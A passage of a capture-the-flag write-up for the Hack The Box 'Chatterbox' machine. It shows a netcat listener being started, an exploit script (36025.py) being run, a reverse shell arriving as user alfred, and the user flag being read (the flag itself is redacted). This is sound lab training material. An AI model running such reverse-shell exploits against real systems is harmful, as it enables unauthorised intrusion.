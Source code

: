 - **Replace the new shellcode and setup a `nc` listener:**

```shell
┌[siunam♥earth]-(~/ctf/htb/Machines/Chatterbox)-[2023.05.17|21:23:54(HKT)]
└> rlwrap -cAr nc -lvnp 443
listening on [any] 443 ...
```

- **Run the exploit script:**

```
┌[siunam♥earth]-(~/ctf/htb/Machines/Chatterbox)-[2023.05.17|21:29:50(HKT)]
└> python2 36025.py
---->{P00F}!
```

```shell
┌[siunam♥earth]-(~/ctf/htb/Machines/Chatterbox)-[2023.05.17|21:23:54(HKT)]
└> rlwrap -cAr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.26] from (UNKNOWN) [10.10.10.74] 49158
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami && ipconfig
whoami && ipconfig
chatterbox\alfred

Windows IP Configuration


Ethernet adapter Local Area Connection 4:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 10.10.10.74
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.10.10.2

Tunnel adapter isatap.{111D2FF5-EF2C-4D77-B44C-DBCE3AAABF4B}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 

C:\Windows\system32>
```

I'm user `alfred`!

**user.txt:**
```shell
C:\Windows\system32>type c:\users\alfred\desktop\user.txt
type c:\users\alfred\desktop\user.txt
{Redacted}
```

## Privilege Escalation
